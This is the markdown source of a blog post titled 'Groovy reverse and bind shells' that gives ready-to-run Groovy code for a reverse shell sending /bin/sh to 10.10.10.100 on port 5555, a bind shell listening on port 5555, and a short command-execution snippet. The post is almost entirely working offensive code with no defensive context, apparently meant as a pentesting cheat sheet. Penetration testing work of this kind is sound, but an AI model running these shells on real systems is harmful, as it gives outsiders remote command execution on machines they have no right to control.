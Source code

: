 ```yaml
---
layout: post
title: "Groovy reverse and bind shells"
date: 2018-03-12 16:06:06
tags: groovy
description: How to create reverse and cmd shells using groovy console or execute a system command.
comments: true
---
```


## Groovy reverse shell
>Groovy reverse shell
{:.filename}
{% highlight groovy %}
String host="10.10.10.100";
int port=5555;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
{% endhighlight %}

## Groovy bind shell
>Groovy bind shell
{:.filename}
{% highlight groovy %}
int port=5555;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start()
Socket s = new java.net.ServerSocket(port).accept()
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
{% endhighlight %}

## Groovy command execution
>Execute a system command using groovy
{:.filename}
{% highlight groovy %}
def sout = new StringBuilder(), serr = new StringBuilder()
def proc = 'ls'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
{% endhighlight %}
